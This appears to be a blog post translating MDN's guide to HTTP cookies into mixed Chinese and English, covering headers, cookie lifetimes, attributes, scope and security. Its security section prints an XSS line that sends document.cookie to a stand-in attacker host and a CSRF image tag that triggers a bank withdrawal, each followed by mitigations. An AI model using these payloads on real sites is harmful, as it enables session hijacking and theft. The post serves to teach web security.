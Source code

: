 ```yaml
---
layout: post
title: HTTP COOKIE 
date: 2017-02-012
categories: translation
---
```

## HTTP Cookies

一个HTTP cookie(web cookie, browser cookie) 是一小段server 发送给user browser 的data，browser可能会存储它并跟随下一次请求send it back  to the same server.典型的，它用来判断是否两次请求来自同一个browser可以用来保持用户 logged-in。它记住无状态HTTP 协议的stateful info.

Cookies 主要用于以下三种目的：
* Session managemnent(user logins, shapping carts)
* personalization（user preferences）
* Tracking (analyzing user behavior)

Cookies 也会用于通常的client-side 存储。但如果有更好的方法就不会用这一种，现在的browser 有许多可以使用的storage API。由于cookies会伴随每个request发送，这样就会造成额外的开销（尤其表现在移动端）。本地存储的新的API是 web storage API(localStorage sessionStorage)和 indexDB.

## Ceating cookies
当server 接收到一个HTTP request， 它就可以发送一个Set-Cookie header with the response.cookies 通常被存在browser 然后，在随后的跟发到该server的每个请求都会带着cookie,它作为Cookie HTTP header 的内容。额外的，可以设置过期时间和指定的domain , path ,limiting how long and to which site the cookie is sent to

## The Set-Cookie and Cookie headers
 set-cookie response header 是server发给 user agent 的。它长这样子
 
 ```
 Set-Cookie: <cookie-name>=<cookie-value>
 ```
 
 server 告诉client 要存一下这个cookie
 
 ```
 HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry

[page content]
 ```
 现在，对于每个发到server的request, browser 都会带上之前server 让存的cookies 使用Cookie header
 
```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
```

## Session cookies
我们上面创建的cookie 就是一个session cookie.当client 页面关闭，就会被移除，这些cookie只存在于当前session. 他们没有指定任何Expires 或者 max-age .注意： 大多浏览器通常都有session restoring enabeld, 它会让大部分session cookies 实际上是permanent 好像browser从未被关闭。

## Permanent cookies
不像session-cookie 在client  close就过期，permanent cookies 会在指定的日期（Expires）或者是过了指定时间（Max-Age）过期.

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GM
```

## Secure and HttpOnly cookies
一个secure cookie 会被发送当request 使用了SSL和 HTTPS协议.注意， 机密和敏感信息不应该被HTTO cookie传输，因为整个机制是没有安全保证的。从Chrome 52 和ff52 不安全的sites(http:) 不能够设置带有“secure”指令的 cookies。
为了放置 cross-site scripting (XSS)attacks, HTTP-only cookies 是通过Document.cookie XHR request API 都拿不到的cookies的。当你在js脚本中不需要cookie的时候设置该属性。

## Scope of cookies
Domain , Path 指令定义了scope of cookies,具体说就是cookie被返回时的urls

domain 指定了哪些hosts cookie会被发送。如果没有被指定， 默认为当前document location (不包括subdomains). 如果domain 指定了，subdomains 就被包含了。
如果domain = mozilla.org cookies也会被设置在subdomain 像developer.mozilla.org
path 指示了一个在requested resource 中一定会存在的URL path在发送Cookie header 之前。%x2F("/")字符被解释为文件目录分隔符
如果 Path=/docs 被设置了，下列paths都会被match

* "/docs"
* "/docs/Web"

## JS access using Document.cookies
可以使用Document.cookie来创建新的cookie,如果HttpOnly flag不存在的话，就可以用js脚本来创建cookie

```
document.cookie = "yummy_cookie=choco"; 
document.cookie = "tasty_cookie=strawberry"; 
console.log(document.cookie); 
// logs "yummy_cookie=choco; tasty_cookie=strawberry"
```

注意更安全的做法放在后面Security 部分。js 脚本可以获得的 Cookies 可能会被XSS 盗取。

## Security

秘密的敏感的信息都不应该使用cookies

## Session hijacking and xss

cookies 用于鉴定用户以及他的认证session. 所以从web app盗取cookie 就导致劫持了认证用户的session。通常的盗取cookies 的方法包括使用Social Engineering 或者开发一个XSS 漏洞在app中。

```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
HttpOnly 属性通过阻止用js脚本获得cookie可以帮助减少这样的攻击

## Cross-site request forgery(CSRF)
考虑一个example。在这个场景下，一个img并不是真的img ，它只是要一个request 去偷取你银行账号里的钱

```
<img src="http://bank.example.com/withdraw?accout=bob&amount=100000&for=mallory">
```

如果你当前登陆了，你的cookie 仍然有效（并且没有其他验证），你就会在HTML加载img时 转移money。有一些tech 可以防止。

* 像XSS 做输入过滤
* 在任何敏感动作之前做认证
* 用于敏感操作的 cookies 应该有一个short lifetime
* OWASP CSRF prevention cheat sheet 
